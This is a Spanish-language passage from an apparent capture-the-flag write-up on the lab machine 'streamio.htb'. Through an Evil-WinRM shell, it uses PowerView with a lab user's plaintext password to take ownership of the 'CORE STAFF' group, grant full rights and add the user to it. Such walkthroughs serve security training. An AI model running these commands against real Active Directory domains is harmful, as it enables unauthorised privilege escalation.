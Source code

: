 ![20240326195646.png](20240326195646.png)

### write owner

Para explotar esto, haremos uso de `PowerView.ps1` y asi agregar al usuario `JDgodd` al grupo `Core Staff`

```python
*Evil-WinRM* PS C:\Users\nikk37\files> Import-Module .\PowerView.ps1
```

Asignamos las variables del usuario al cual agregaremos al grupo

```python
*Evil-WinRM* PS C:\Users\nikk37\files> $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\nikk37\files> $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)

```

Añadimos al grupo al usuario `JDgodd`

```python
*Evil-WinRM* PS C:\Users\nikk37\files> Set-DomainObjectOwner -Identity 'CORE STAFF' -OwnerIdentity "streamio\JDgodd" -Cred $cred
*Evil-WinRM* PS C:\Users\nikk37\files> Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity "streamio\JDgodd" -Cred $cred -Rights All

*Evil-WinRM* PS C:\Users\nikk37\files> Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'streamio\JDgodd' -Cred $cred
```
